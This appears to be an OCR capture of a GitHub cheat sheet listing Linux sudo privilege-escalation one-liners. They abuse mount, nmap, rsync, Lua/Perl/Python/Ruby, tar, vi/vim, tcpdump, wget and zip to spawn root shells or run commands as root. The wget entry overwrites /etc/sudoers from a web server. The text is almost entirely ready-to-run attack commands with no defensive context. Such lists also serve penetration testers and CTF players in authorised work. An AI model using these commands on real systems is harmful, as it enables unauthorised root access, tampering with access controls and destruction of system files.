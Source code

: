 * mount
```
sudo mount -o bind /bin/bash /bin/mount
sudo mount
```

* nmap
```
echo "os.execute('/bin/sh')" > /tmp/script.nse
sudo nmap --script=/tmp/script.nse
```

* rsync
```
echo "whoami > /tmp/whoami" > /tmp/tmpfile
sudo rsync  -e 'sh /tmp/tmpfile' /dev/null 127.0.0.1:/dev/null 2>/dev/null

cat whoami 
root
```

* scripting languages
```
lua: 	os.execute('/bin/sh')
perl: 	sudo  perl -e 'exec "/bin/sh";'
python: sudo  python -c 'import os;os.system("/bin/sh")'
ruby: 	sudo ruby -e 'exec "/bin/sh"'
```

* tar
```
sudo tar cf archive.tar * --checkpoint=1 --checkpoint-action=exec=sh
```

* text editor
```
vi: 	sudo vi -c '!sh' or :!bash or :set shell=/bin/bash:shell or :shell
vim : 	sudo vim -c '!sh' or :!bash or :set shell=/bin/bash:shell or :shell
```

* tcpdump
```
echo "whoami > /tmp/whoami" > /tmp/tmpfile
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z ./tmpfile -Z root

cat whoami 
root
```

* wget (overwrite system file - need a web server)
```
sudo wget http://127.0.0.1/sudoers -O /etc/sudoers
```

* zip
```
echo "/bin/sh" > /tmp/run.sh
sudo zip z.zip * -T -TT /tmp/run.sh
```
